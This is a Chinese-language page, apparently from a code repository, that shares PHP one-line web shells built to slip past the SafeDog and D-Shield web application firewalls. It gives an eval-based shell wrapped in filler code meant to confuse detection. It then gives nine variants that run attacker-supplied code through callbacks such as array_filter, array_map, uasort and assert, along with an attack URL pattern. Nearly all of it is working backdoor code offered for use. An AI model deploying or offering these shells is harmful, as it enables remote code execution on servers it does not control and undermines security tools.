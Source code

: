 过狗过盾 PHP 一句话
------------

```
function app_c( $a ) {   //封装函数
	if ( empty( $a ) ) {    //添加干扰代码
		$a = "echo 'it ok'";    //干扰代码
	}
	@eval( $a );
}

@app_c( $_POST['x'] );
```

过狗过盾无特征无动态函数 PHP 一句话
--------------------

分享些不需要动态函数、不用 eval、不含敏感函数、免杀免拦截的一句话。（少部分一句话需要 php5.4.8+、或 sqlite/pdo/yaml/memcached 扩展等）

```
所有一句话使用方法基本都是：
http://target/shell.php?e=assert 密码pass

//01
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_filter($arr, $e);

//02
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_map($e, $arr);

//03
$e = $_REQUEST['e'];
$arr = array('test', $_REQUEST['pass']);
uasort($arr, $e);

//04
$e = $_REQUEST['e'];
$arr = array('test' => 1, $_REQUEST['pass'] => 2);
uksort($arr, $e);

//05
$arr = new ArrayObject(array('test', $_REQUEST['pass']));
$arr->uasort('assert');

//06
$arr = new ArrayObject(array('test' => 1, $_REQUEST['pass'] => 2));
$arr->uksort('assert');

//07
$e = $_REQUEST['e'];
$arr = array(1);
array_reduce($arr, $e, $_POST['pass']);

//08
$e = $_REQUEST['e'];
$arr = array($_POST['pass']);
$arr2 = array(1);
array_udiff($arr, $arr2, $e);

//09
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk($arr, $e, '');
```